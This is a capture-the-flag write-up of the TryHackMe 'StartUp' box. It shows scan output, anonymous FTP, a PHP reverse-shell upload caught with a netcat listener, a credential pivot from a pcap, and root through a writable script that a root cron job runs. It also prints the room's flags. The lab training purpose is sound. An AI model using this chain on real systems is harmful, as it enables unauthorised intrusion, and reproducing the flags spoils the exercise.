

# Write Up for Try Hack Me box - [StartUp](https://tryhackme.com/room/startup)

Easy Box to get on. But not a direct privesc.\
Scripting and listening will come in use. Employ your detective skills.

> Pratyush Prakhar (5#1NC#4N) - 09/25/2023

## RECONNAISSANCE

1. Scan the box with rustscan.
	1. Full port scan --> [nmap file](rustscan/all.nmap).

	**Results**

	```bash
	└─$ rustscan --range 1-65535 -a 10.10.44.0 -- -oN rustscan/all.nmap                  
	.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
	| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
	| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
	`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
	The Modern Day Port Scanner.
	________________________________________
	: http://discord.skerritt.blog           :
	: https://github.com/RustScan/RustScan :
	--------------------------------------
	Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan

	[~] The config file is expected to be at "/home/kali/.rustscan.toml"
	[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
	[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
	Open 10.10.44.0:22
	Open 10.10.44.0:21
	Open 10.10.44.0:80
	[~] Starting Script(s)
	[>] Running script "nmap -vvv -p {{port}} {{ip}} -oN rustscan/all.nmap" on ip 10.10.44.0
	Depending on the complexity of the script, results may take some time to appear.
	[~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-11 12:33 IST
	Initiating Ping Scan at 12:33
	Scanning 10.10.44.0 [2 ports]
	Completed Ping Scan at 12:33, 0.18s elapsed (1 total hosts)
	Initiating Parallel DNS resolution of 1 host. at 12:33
	Completed Parallel DNS resolution of 1 host. at 12:33, 0.06s elapsed
	DNS resolution of 1 IPs took 0.06s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
	Initiating Connect Scan at 12:33
	Scanning 10.10.44.0 [3 ports]
	Discovered open port 21/tcp on 10.10.44.0
	Discovered open port 80/tcp on 10.10.44.0
	Discovered open port 22/tcp on 10.10.44.0
	Completed Connect Scan at 12:33, 0.16s elapsed (3 total ports)
	Nmap scan report for 10.10.44.0
	Host is up, received syn-ack (0.18s latency).
	Scanned at 2023-11-11 12:33:07 IST for 0s

	PORT   STATE SERVICE REASON
	21/tcp open  ftp     syn-ack
	22/tcp open  ssh     syn-ack
	80/tcp open  http    syn-ack

	Read data files from: /usr/bin/../share/nmap
	Nmap done: 1 IP address (1 host up) scanned in 0.44 seconds
	```

	2. Full Service and Scripts scan on the found ports. --> [nmap file here](rustscan/main.nmap)

	**Results**

	```bash
	└─$ rustscan --ports 21,22,80 -a 10.10.44.0 -- -sC -sV -oN rustscan/main.nmap       
	.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
	| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
	| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
	`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
	The Modern Day Port Scanner.
	________________________________________
	: http://discord.skerritt.blog           :
	: https://github.com/RustScan/RustScan :
	--------------------------------------
	😵 https://admin.tryhackme.com

	[~] The config file is expected to be at "/home/kali/.rustscan.toml"
	[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
	[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
	Open 10.10.44.0:22
	Open 10.10.44.0:21
	Open 10.10.44.0:80
	[~] Starting Script(s)
	[>] Running script "nmap -vvv -p {{port}} {{ip}} -sC -sV -oN rustscan/main.nmap" on ip 10.10.44.0
	Depending on the complexity of the script, results may take some time to appear.
	[~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-11 12:38 IST
	NSE: Loaded 156 scripts for scanning.
	NSE: Script Pre-scanning.
	NSE: Starting runlevel 1 (of 3) scan.
	Initiating NSE at 12:38
	Completed NSE at 12:38, 0.00s elapsed
	NSE: Starting runlevel 2 (of 3) scan.
	Initiating NSE at 12:38
	Completed NSE at 12:38, 0.00s elapsed
	NSE: Starting runlevel 3 (of 3) scan.
	Initiating NSE at 12:38
	Completed NSE at 12:38, 0.00s elapsed
	Initiating Ping Scan at 12:38
	Scanning 10.10.44.0 [2 ports]
	Completed Ping Scan at 12:38, 0.16s elapsed (1 total hosts)
	Initiating Parallel DNS resolution of 1 host. at 12:38
	Completed Parallel DNS resolution of 1 host. at 12:38, 0.00s elapsed
	DNS resolution of 1 IPs took 0.00s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
	Initiating Connect Scan at 12:38
	Scanning 10.10.44.0 [3 ports]
	Discovered open port 22/tcp on 10.10.44.0
	Discovered open port 21/tcp on 10.10.44.0
	Discovered open port 80/tcp on 10.10.44.0
	Completed Connect Scan at 12:38, 0.16s elapsed (3 total ports)
	Initiating Service scan at 12:38
	Scanning 3 services on 10.10.44.0
	Completed Service scan at 12:38, 6.35s elapsed (3 services on 1 host)
	NSE: Script scanning 10.10.44.0.
	NSE: Starting runlevel 1 (of 3) scan.
	Initiating NSE at 12:38
	NSE: [ftp-bounce 10.10.44.0:21] PORT response: 500 Illegal PORT command.
	Completed NSE at 12:38, 5.01s elapsed
	NSE: Starting runlevel 2 (of 3) scan.
	Initiating NSE at 12:38
	Completed NSE at 12:38, 1.15s elapsed
	NSE: Starting runlevel 3 (of 3) scan.
	Initiating NSE at 12:38
	Completed NSE at 12:38, 0.00s elapsed
	Nmap scan report for 10.10.44.0
	Host is up, received syn-ack (0.16s latency).
	Scanned at 2023-11-11 12:38:23 IST for 12s

	PORT   STATE SERVICE REASON  VERSION
	21/tcp open  ftp     syn-ack vsftpd 3.0.3
	| ftp-syst: 
	|   STAT: 
	| FTP server status:
	|      Connected to 10.17.88.193
	|      Logged in as ftp
	|      TYPE: ASCII
	|      No session bandwidth limit
	|      Session timeout in seconds is 300
	|      Control connection is plain text
	|      Data connections will be plain text
	|      At session startup, client count was 4
	|      vsFTPd 3.0.3 - secure, fast, stable
	|_End of status
	| ftp-anon: Anonymous FTP login allowed (FTP code 230)
	| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
	| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
	|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
	22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
	| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDAzds8QxN5Q2TsERsJ98huSiuasmToUDi9JYWVegfTMV4Fn7t6/2ENm/9uYblUv+pLBnYeGo3XQGV23foZIIVMlLaC6ulYwuDOxy6KtHauVMlPRvYQd77xSCUqcM1ov9d00Y2y5eb7S6E7zIQCGFhm/jj5ui6bcr6wAIYtfpJ8UXnlHg5f/mJgwwAteQoUtxVgQWPsmfcmWvhreJ0/BF0kZJqi6uJUfOZHoUm4woJ15UYioryT6ZIw/ORL6l/LXy2RlhySNWi6P9y8UXrgKdViIlNCun7Cz80Cfc16za/8cdlthD1czxm4m5hSVwYYQK3C7mDZ0/jung0/AJzl48X1
	|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
	| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOKJ0cuq3nTYxoHlMcS3xvNisI5sKawbZHhAamhgDZTM989wIUonhYU19Jty5+fUoJKbaPIEBeMmA32XhHy+Y+E=
	|   256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
	|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPnFr/4W5WTyh9XBSykso6eSO6tE0Aio3gWM8Zdsckwo
	80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
	|_http-title: Maintenance
	|_http-server-header: Apache/2.4.18 (Ubuntu)
	| http-methods: 
	|_  Supported Methods: GET HEAD POST OPTIONS
	Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

	NSE: Script Post-scanning.
	NSE: Starting runlevel 1 (of 3) scan.
	Initiating NSE at 12:38
	Completed NSE at 12:38, 0.00s elapsed
	NSE: Starting runlevel 2 (of 3) scan.
	Initiating NSE at 12:38
	Completed NSE at 12:38, 0.00s elapsed
	NSE: Starting runlevel 3 (of 3) scan.
	Initiating NSE at 12:38
	Completed NSE at 12:38, 0.00s elapsed
	Read data files from: /usr/bin/../share/nmap
	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 13.22 seconds
	```

2. There are **3 TCP** ports open. 
	1. *Port 21* - FTP - **vsftpd 3.0.3**
	2. *Port 22* - SSH - **OpenSSH 7.2p2** 
	3. *Port 80* - WEB - **Apache httpd 2.4.18**

3. Let's explore FTP and WEB part first. Then we can use SSH.


## FTP

1. We have VsFTP installed on the system. Will require a set of login credentials to get access through this path. 
2. But NMAP says `Anonymous Login` is possible. So, let's explore that.
3. We find two useful files in the directory listing.
	1. [.test.log](ftp/.test.log) --> Just a `test file` to check some functionality.
	2. [important.jpg](ftp/important.jpg) --> A meme file about the most stupid game - Among Us. Trigger Alert !!
	3. [notice.txt](ftp/notice.txt) --> Hints towards a vulnerability that the ftp share is available through web server listing.
4. Let's keep this knowledge for later and dig into Web.


**Results**

```bash
$ ftp 10.10.44.0 
Connected to 10.10.44.0.
220 (vsFTPd 3.0.3)
Name (10.10.44.0:kali): anonymous 
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||11481|)
150 Here comes the directory listing.
drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 .
drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 ..
-rw-r--r--    1 0        0               5 Nov 12  2020 .test.log
drwxrwxrwx    2 65534    65534        4096 Nov 11 07:38 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
226 Directory send OK.
ftp> cd ..
250 Directory successfully changed.
ftp> ls -la
229 Entering Extended Passive Mode (|||21625|)
150 Here comes the directory listing.
drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 .
drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 ..
-rw-r--r--    1 0        0               5 Nov 12  2020 .test.log
drwxrwxrwx    2 65534    65534        4096 Nov 11 07:38 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
226 Directory send OK.
ftp> cd ftp
250 Directory successfully changed.
ftp> ls -la
229 Entering Extended Passive Mode (|||12188|)
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Nov 11 07:38 .
drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 ..
```

## WEB

1. Let's first check out the web server on port 80. 
	1. We get a default page with no links going out.
	
	2. We will go for the low hanging fruit - robots, page source and try to get some information. --> Need better Dev team. Don't we all.
	
	3. We can also run other enumerations on the side as `subdomain` and `nikto`. --> Mention of `/files` dir listing. Worth looking into from the angle of ftp notice file. Check [here](web).
	4. Look through a proxy to get more details on the request:response model setup. Nothing to go on.
	5. We can run sub domain check on this port using `feroxbuster`. Check the results [here](web/ferox.txt).

2. The feroxbuster scan points us towards the `ftp folder` which we saw earlier on our ftp listing. As Gru says, "Light Bulb !!".

3. Let's work on our exploit path now. 
	1. Upload malicious reverse shell spawning file through the ftp open share.
	2. Execute the file through web listing.
	


## INITIAL ACCESS

1. Uploading a `test.txt` file through the ftp listing using the **put** command.

```bash
└─$ echo "test me" > test.txt

└─$ ftp 10.10.44.0 
Connected to 10.10.44.0.
220 (vsFTPd 3.0.3)
Name (10.10.44.0:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd ftp
250 Directory successfully changed.
ftp> ls -la
229 Entering Extended Passive Mode (|||35589|)
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Nov 11 07:38 .
drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 ..
-rwxrwxr-x    1 112      118          5494 Nov 11 07:38 php-reverse-shell.php
-rwxrwxr-x    1 112      118             8 Nov 11 07:31 test.txt
226 Directory send OK.
ftp> 
```

2. If we can view it through the web listing, then we have code execution. And we have it.


3. Now we can do the same with a `php reverse shell` to get an initial foothold on the box.

```bash
└─$ nc -lnvvp 1337
listening on [any] 1337 ...
connect to [10.17.88.193] from (UNKNOWN) [10.10.44.0] 36018
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 08:39:47 up  1:40,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@startup:/$ ^Z
zsh: suspended  nc -lnvvp 1337
                                                                                                                                   
┌──(kali㉿kali)-[~/…/In Progress/Easy/StartUp/ssh]
└─$ stty raw -echo;fg                   
[1]  + continued  nc -lnvvp 1337

www-data@startup:/$ export TERM=xterm
www-data@startup:/$ stty rows 31 cols 131
www-data@startup:/$ whoami
www-data
```

4. Let's now do some manual and automatic enumeration.
	1. The user we get in as `www-data`. Let's look into the `/home` directory. We can't get in.
	2. We do get some odd files in the root directory. [recipe.txt](ssh/recipe.txt) seems interesting. There are other interesting folders as well.
		1. `/vagrant` --> 
		2. `/incidents` --> contains a suspicious pcap file that might contain interesting data. Let's explore that.
	3. There is no shell for the other user's to log into.
	4. Weirdly, we can't even get into the web root as it is owned by `root`. Everything about this box is weird.
	5. Check out the linpeas script [here](ssh/tmp/linpeas.out) for more.


## PIVOT TO USER

1. On exploring the [pcap file](ssh/incidents/suspicious.pcapng), we find a possible creds for user `lennie` as shown [here](ssh/incidents/lennie.txt). We might be able to use this and get on the system as lennie. And what do we know, user got lazy. Again !!. User flag is ours.

```bash
l└─$ ssh lennie@10.10.218.234
The authenticity of host '10.10.218.234 (10.10.218.234)' can't be established.
ED25519 key fingerprint is SHA256:v4Yk83aT8xnOB+pdfmlLuJY1ztw/bXsFd1cl/xV07xY.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:27: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.218.234' (ED25519) to the list of known hosts.
lennie@10.10.218.234's password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-190-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

44 packages can be updated.
30 updates are security updates.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

$ bash
lennie@startup:~$ whoami
lennie
lennie@startup:~$ ls -la
total 24
drwx------ 5 lennie lennie 4096 Nov 11 11:03 .
drwxr-xr-x 3 root   root   4096 Nov 12  2020 ..
drwx------ 2 lennie lennie 4096 Nov 11 11:03 .cache
drwxr-xr-x 2 lennie lennie 4096 Nov 12  2020 Documents
drwxr-xr-x 2 root   root   4096 Nov 12  2020 scripts
-rw-r--r-- 1 lennie lennie   38 Nov 12  2020 user.txt
lennie@startup:~$ cat user.txt 
*****************************
```

2. Let's now find a way to root.
	1. There is an interesting folder `scripts` in the home folder. 
	2. It contains a `planner.sh` file that run with root permissions every minute. This can be seen from the [linpeas](ssh/tmp/linpeas_lennie.out) output and [pspy](ssh/tmp/pspy.out) (Amazing enum tool BTW). 
	3. This inturn invokes `/etc/print.sh` which to our luck is owned by us and can be modified by us. Do you see the path my child??
	4. Let's exploit it with a reverse listener to our box. Tried everything else from file read to shell invoke. Failed. Reverse shell it is.

```bash
lennie@startup:~/scripts$ ls
planner.sh  startup_list.txt
lennie@startup:~/scripts$ ls -la
total 16
drwxr-xr-x 2 root   root   4096 Nov 12  2020 .
drwx------ 7 lennie lennie 4096 Nov 11 11:12 ..
-rwxr-xr-x 1 root   root     77 Nov 12  2020 planner.sh
-rw-r--r-- 1 root   root      1 Nov 11 11:14 startup_list.txt
lennie@startup:~/scripts$ cat planner.sh 
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
lennie@startup:~/scripts$ ls -la /etc/print.sh 
-rwx------ 1 lennie lennie 25 Nov 12  2020 /etc/print.sh
lennie@startup:~/scripts$ cat /etc/print.sh 
#!/bin/bash
echo "Done!"
```

## PRIVESC

1. We get a reverse shell on the box by updating the `/etc/print.sh` file. And our assumption worked as we are now root.

```bash
└─$ nc -lnvvp 1337
listening on [any] 1337 ...
connect to [10.17.88.193] from (UNKNOWN) [10.10.218.234] 47676
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# bash
exit
# python3 -c 'import pty;pty.spawn("/bin/bash")'       
root@startup:~# ^Z
zsh: suspended  nc -lnvvp 1337
                                                                                                                                   
┌──(kali㉿kali)-[~/…/Easy/StartUp/ssh/tmp]
└─$ stty raw -echo;fg       
[1]  + continued  nc -lnvvp 1337

root@startup:~# export TERM=xterm
root@startup:~# stty rows 38 cols 131
```

2. Let's get that `root.txt` flag and call it a day. See you super soon.

```bash
root@startup:~# ls
root.txt
root@startup:~# cat root.txt 
*************************************
```

## EXTRA TREAT 

1. Have a look at some interesting files found in [/tmp](ssh/tmp) and [/etc](ssh/etc).

2. Added created [ssh keys](ssh/root) to have a proper shell on the box and not waiting for the reverse nc listener to collapse on us.


## BROWNIE POINTS

1. What is the secret spicy soup recipe? - **love**
2. User.txt - **THM{03ce3d619b80ccbfb3b7fc81e46c0e79}**
3. Root.txt - **THM{f963aaa6a430f210222158ae15c3d76d}**

**Stay Tuned On**\
[GitHub](https://github.com/pratty010/Boxes)\
[LinkedIn](https://www.linkedin.com/in/pratyush-prakhar/)